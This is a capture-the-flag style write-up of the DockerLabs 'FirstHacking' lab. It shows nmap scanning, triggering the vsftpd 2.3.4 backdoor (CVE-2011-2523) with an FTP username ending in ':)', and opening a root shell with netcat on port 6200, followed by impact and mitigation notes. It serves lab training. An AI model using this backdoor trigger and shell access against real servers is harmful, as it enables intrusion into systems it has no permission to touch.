






# 🐳 DockerLabs - FirstHacking


# 📌 General information

| Machine      | Difficulty | Author               | Target IP  | Category              |
| ------------ | ---------- | -------------------- | ---------- | --------------------- |
| FirstHacking | Very easy  | El pingüino de Mario | 172.17.0.2 | Service: vsftpd 2.3.4 |


# 🎯 Objective

Identify exposed services, detect vulnerabilities, and gain access to the target system.

# 🛠️ Tools

- ping: Connectivity and range check.
- nmap: Port and services scanning, vulnerability scripts and recognition.
- netcat: Remote connection to target.

# 🔌 Ports

| Port | Service       |
| ---- | ------------- |
| 21   | FTP (2.3.4)   |
| 6200 | Vulnerability |

# 🔭 Connectivity with ***ping***

```bash
ping -c 172.17.0.2
```

Result:



# 🔬 Recognition witn ***nmap***

```bash
nmap -sV -p- -T4 172.17.0.2
```

Result:



Port 21 is exposed with service vsftpd 2.3.4 and may be subject to exploita- tion.

# 🩻 Scanning vulnerabilities with ***nmap***

```bash
nmap --script ’vuln’ -p 21 172.17.0.2
```

Result:



Vulnerability CVE-2011-2523 found due to vsftpd 2.3.4 version running on target.

# ⛓️‍💥 CVE-2011-2523

Vsftpd v2.3.4 contains a backdoor triggered by entering a username ending with ’:)’. This opens port 6200, which can be accessed via netcat.

# 💣 Exploitation

Start ***ftp*** connection with ***user:)***.



# 🩻 Scanning ports after ftp sign in



Now the port 6200 is exposed.

# 🔗 Connecting using netcat - Post-Exploitation

```bash
nc 172.17.0.2 6200
whoami
id
hostname
```

Result:



Root connection stablished.

# 🔑 Key points

- 21 port exposed.
- vsftpd v2.3.4 (CVE-2011-2523).

# ☠️ Impact

- Full system compromise.
- Root level access obtained.
- No authentication required.

# 🔐 Mitigation

- Upgrade vsftpd to a secure version.
- Disable any unnecessary ports (6200) using firewall restrictions.

# 📜 Conclusion

Target machine exploited successfully

1. Identifying an exposed FTP service.
2. Detecting a vulnerable version.
3. Exploting the known backdoor.
4. Connecting through root access.